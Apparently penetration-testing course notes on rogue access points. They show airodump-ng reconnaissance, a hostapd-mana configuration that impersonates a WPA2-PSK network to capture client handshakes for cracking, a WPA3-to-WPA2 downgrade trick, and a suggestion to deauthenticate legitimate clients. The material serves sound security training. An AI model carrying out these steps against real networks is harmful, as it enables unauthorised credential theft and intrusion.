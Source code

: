 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Module 10: Rogue Access Points

## The Basics of Rogue APs

_Use a Rogue AP with an identical SSID to have a device reference its Preferred Network List (PNL) and try to connect to your AP with the legitimate PSK._

## Discovery

_Conduct recon to gather information about the AP you'll be maliciously mirroring._

```bash
kali@kali:~$ sudo airodump-ng -w discovery --output-format pcap wlan0mon
 CH 12 ][ Elapsed: 0 s ][ 2020-08-14 16:23 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 CD:C2:25:9A:47:BA  -45        3        2    0   6  195   WPA2 CCMP   MGT  Sarajevo
 94:36:45:CA:71:61  -46        3        4    0   6  195   WPA2 CCMP   PSK  Zagreb
 FC:7A:2B:88:63:EF  -53        5        0    0   1  130   WPA2 CCMP   PSK  Mostar
 1E:E1:3E:95:52:7D  -87        2        0    0  11  130   OPN              Budva
 85:28:13:AE:50:5C  -91        3        0    0  11  130   WPA2 CCMP   PSK  Beograd

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 94:36:45:CA:71:61  E6:D9:90:B0:B2:4C  -54    0 - 0e     0        2
 94:36:45:CA:71:61  05:E3:5B:E6:D9:A4  -73    0e-54      0        2
 85:28:13:AE:50:5C  E6:DE:B9:2A:56:83  -91    0 - 5e   487        6
 CD:C2:25:9A:47:BA  98:D5:95:6D:25:77  -37    0 - 1e     0        2
 (not associated)   A7:AD:4A:2B:5E:ED  -54    0 - 1      3        9         Yugoslavia
 FC:7A:2B:88:63:EF  FE:5C:F4:2B:D4:3E  -48    0 - 6      0        1
```

_The above example lets us know Mostar is a WPA2-PSK network with CCMP. It runs at 130 Mbit, and is on channel 1._

## Creating a Rogue AP

### Building the hostapd-mana Configuration

The simplest configuration for hsotapd-mana:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
```

Adding hw\_mode to the config file:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
```

Adding security configuration:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
```

Final Mostar-mana.conf:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```

{% hint style="info" %}
At the writing of this module, it is not possible to crack WPA3. However, when we encounter APs with WPA3, we may be able to trick clients into downgrading to a WPA2 connection, allowing us to capture a crackable handshake. We can accomplish this by creating an AP with only WPA2 and 802.11w set to "optional". WPA3 use the same algorithms as WPA2 CCMP, and requires 802.11w.

If 802.11w is disabled, a client may never try to connect, but WPA2 clients rarely use it (and sometimes don't handle it well). The combination of only using WPA2 and 802.11w set to "optional" will gives us the highest chance that a client will be willing to downgrade.

To achieve this in the hostapd configuration, the _wpa_ value should be set to "2", there shouldn't be a _wpa\_pairwise_ parameter, and _rsn\_pairwise_ should be set to "CCMP" only. To enable 802.11w, we would set _ieee80211w_ as a new parameter with the value of "1" (indicating it is optional). This also requires that we add "WPA-PSK-SHA256" to _wpa\_key\_mgmt_.
{% endhint %}

### Capturing Handshakes

Starting hostapd-mana to capture handshakes:

```bash
kali@kali:~$ sudo hostapd-mana Mostar-mana.conf 
Configuration file: Mostar-mana.conf
MANA: Captured WPA/2 handshakes will be written to file 'mostar.hccapx'.
Using interface wlan0 with hwaddr 2e:0b:05:98:f8:66 and ssid "Mostar"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED 
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
```

To _help_ client devices connect to your rogue AP, consider sending deauths to the legitimate AP's clients.
